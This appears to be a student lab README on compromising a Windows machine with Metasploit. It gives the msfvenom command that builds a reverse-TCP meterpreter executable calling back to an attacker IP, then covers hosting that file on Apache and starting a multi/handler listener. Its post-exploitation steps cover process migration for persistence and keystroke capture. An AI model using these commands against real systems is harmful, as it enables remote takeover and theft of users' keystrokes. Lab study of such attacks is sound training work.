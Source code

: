 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
PROGRAM:
Find the attackers ip address using ifconfig

OUTPUT:
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/7f7c931d-3c53-4586-99f7-9bcf5f432b59)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

OUTPUT
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/48dc0f08-070b-44d8-b533-ac746a15f7cd)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/ec7d9753-2aec-4bca-9ac6-810bd2f2a0c6)
Start apache server sudo systemctl apache2 start
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/e7e31b0f-5d4b-4100-9d6b-b79e4ac75cab)
Check the status of apache2
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/00f16221-cf2e-454b-ab4f-f9c920d47b2d)
Invoke msfconsole:






## EXECUTION STEPS AND ITS OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/ecd6c668-eb5c-45ef-a023-6c9297de75a1)
set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/a6da233a-d97b-4188-896e-1a388cd6ee72)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/ac5a25a3-ac3e-4ac0-a0b7-57174b10a9bf)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/48624dc9-40be-42bd-ad0e-b1bd5fbc606b)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/4eef97bc-481c-46b1-ac84-c3a45364c430)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/6e140875-9580-4abe-88f2-06b15441246d)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/132996838/a87ef660-5151-4141-82d1-0134407f7366)










## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
